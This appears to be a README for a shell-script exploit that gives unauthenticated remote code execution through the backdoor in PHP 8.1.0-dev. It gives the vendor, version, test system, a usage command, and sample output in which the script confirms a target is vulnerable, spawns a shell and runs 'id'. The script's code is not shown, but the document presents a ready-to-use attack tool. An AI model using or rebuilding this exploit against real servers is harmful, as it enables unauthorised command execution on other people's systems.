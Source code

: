 # **PHP 8.1.0-dev (backdoor) | Remote Code Execution (Unauthenticated)**

## A simple PHP 8.1.0-dev exploit exploit written in a shell script that exploits a backdoor vulnerability that allows an attacker to execute remote code.

### **Vendor Homepage:** https://www.php.net/
### **Version:** PHP 8.1.0-dev
### **Tested on:** Ubuntu 20.04.2 LTS (5.4.0-80-generic)
### **Author:** Kl3gari

## **Usage:**
### `./php_8.1_rce.sh [URL]`

## **Example:**
```
./php_8.1_rce.sh http://10.10.10.145/
Checking if host is vulnerable...

 Vulnerable --> PHP/8.1.0
 [+] Spawning shell

$ id
uid=1000(test) gid=1000(test) groups=1000(test)
$

```
